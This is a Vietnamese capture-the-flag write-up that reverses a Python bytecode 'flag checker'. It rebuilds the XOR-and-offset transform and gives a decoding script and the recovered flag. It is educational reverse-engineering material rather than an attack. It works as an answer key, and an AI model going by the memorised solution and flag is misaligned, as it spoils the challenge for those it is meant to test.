 Haizz, thú thật mình chưa từng đọc bytecode python nên đối với mình challenge này rất mới, thú vị và cũng như rất mất thời gian (┬┬﹏┬┬). Bây giờ mình sẽ bắt tay vào phân tích tại hàm ``__main__`` thì có lẽ là chương trình bắt chúng ta nhập vào ``flag`` sau đó truyền vào hàm transform và so sánh với một chuỗi nào đó. Tuy nhiên nhờ vào việc decompile thành công một đoạn ở trên thì mình khá chắc rằng nó sẽ so sánh với mảng ``CHECK``. Vậy thì chuỗi ``KEY`` sẽ được làm gì đó với ``flag``. Mà độ dài ``flag`` chắc chắn bằng ``CHECK`` mà ``KEY`` lại ngắn hơn ``CHECK`` thì mình nghĩ rằng ``flag`` sẽ được làm gì đó với lần lượt các giá trị của ``KEY`` theo thứ tự rồi lại bắt đầu từ đầu hay nói cách khác ``KEY[i%LEN(KEY)]``. Tuy nhiên đây mới là phỏng đoán ban đầu, giờ ta sẽ đi phân tích chính xác hàm transform sẽ làm gì:

```
 [Constants]
                None
                [Code]
                    File Name: check.py
                    Object Name: <listcomp>
                    Qualified Name: transform.<locals>.<listcomp>
                    Arg Count: 1
                    Pos Only Arg Count: 0
                    KW Only Arg Count: 0
                    Stack Size: 8
                    Flags: 0x00000013 (CO_OPTIMIZED | CO_NEWLOCALS | CO_NESTED)
                    [Names]
                        'KEY'
                        'len'
                    [Locals+Names]
                        '.0'
                        'i'
                        'f'
                    [Constants]
                        24
                        255
                        74
                    [Disassembly]
                        0       RESUME                        0
                        2       BUILD_LIST                    0
                        4       LOAD_FAST                     0: .0
                        6       FOR_ITER                      54 (to 116)
                        8       UNPACK_SEQUENCE               2
                        12      STORE_FAST                    1: i
                        14      STORE_FAST                    2: f
                        16      LOAD_FAST                     2: f
                        18      LOAD_CONST                    0: 24
                        20      BINARY_OP                     0 (+)
                        24      LOAD_CONST                    1: 255
                        26      BINARY_OP                     1 (&)
                        30      LOAD_GLOBAL                   0: KEY
                        42      LOAD_FAST                     1: i
                        44      LOAD_GLOBAL                   3: NULL + len
                        56      LOAD_GLOBAL                   0: KEY
                        68      PRECALL                       1
                        72      CALL                          1
                        82      BINARY_OP                     6 (%)
                        86      BINARY_SUBSCR
                        96      BINARY_OP                     12 (^)
                        100     LOAD_CONST                    2: 74
                        102     BINARY_OP                     10 (-)
                        106     LOAD_CONST                    1: 255
                        108     BINARY_OP                     1 (&)
                        112     LIST_APPEND                   2
                        114     JUMP_BACKWARD                 55
                        116     RETURN_VALUE
            [Disassembly]
                0       RESUME                        0
                2       LOAD_CONST                    1: <CODE> <listcomp>
                4       MAKE_FUNCTION                 0
                6       LOAD_GLOBAL                   1: NULL + enumerate
                18      LOAD_FAST                     0: flag
                20      PRECALL                       1
                24      CALL                          1
                34      GET_ITER
                36      PRECALL                       0
                40      CALL                          0
                50      RETURN_VALUE
```
 Trong lúc tìm cách đọc bytecode python thì mình tìm được trang web này ``https://betterprogramming.pub/analysis-of-compiled-python-files-629d8adbe787`` nó khá là hay và giúp ích cho mình. Vậy vào hàm transform
 ta biết được nó sẽ truyền vào ``flag``, và một từ khóa khác đó là ``enumerate`` trong hàm for trong python cụ thể thì ``enumerate`` sẽ trả về 2 giá trị i và f ( index và giá trị của nó trong chuỗi ) mà ở đây ta thấy được hai giá trị i và f đó 



Tiếp theo là khúc ``BINARY_OP`` sẽ là phép tính của hai giá trị ( hai biến trước nó ). Vậy thì ta có khúc ``value= (f+24)&255``.



Tiếp đó gọi ``KEY, i, LEN, %, ^``, tới đây thì nhìn lại phỏng đoạn ban đầu thì mình đã chắc nó hoạt động như minh nghĩ ``value = value ^ KEY[i % len(KEY)]``. Sau cùng chỉ có ``-,&``. Hay ``value-=74`` , ``value &= 255``. Cuối cùng nó sẽ lưu giá ``value`` vào một chuỗi nào đó sau mỗi lần lặp và khi kết thúc nó sẽ so sánh với mảng ``CHECK``. Tóm lại các dữ kiện mình có thể viết một đoạn chương trình tương ứng:

```python
def transform(flag):
    res = []
    for i, f in enumerate(flag):
        value = (f + 24) & 255
        value = value ^ KEY[i % len(KEY)]
        value = value - 74
        value = value & 255
        res.append(value)
    return res
```
 Khi đã có code thì việc viết script giải vô cùng đơn giản và đây là script của mình:
 ```python
KEY = b'SUP3RS3CR3TK3Y'
CHECK = bytearray(b'\xe9\xef\xc0V\x8d\x8a\x05\xbe\x8ek\xd9yX\x8b\x89\xd3\x8c\xfa\xdexu\xbe\xdf1\xde\xb6\\')
    # def transform(flag):
    #     res = []
    #     for i, f in enumerate(flag):
    #         value = (f + 24) & 255
    #         value = value ^ KEY[i % len(KEY)]
    #         value = value - 74
    #         value = value & 255
    #         res.append(value)
    #     return res
for i in range(len(CHECK)):
    print(chr(((((CHECK[i]&255)+74)^KEY[i%len(KEY)])&255)-24),end="")
```
 Flag: ***HTB{mod3rn_pyth0n_byt3c0d3}***



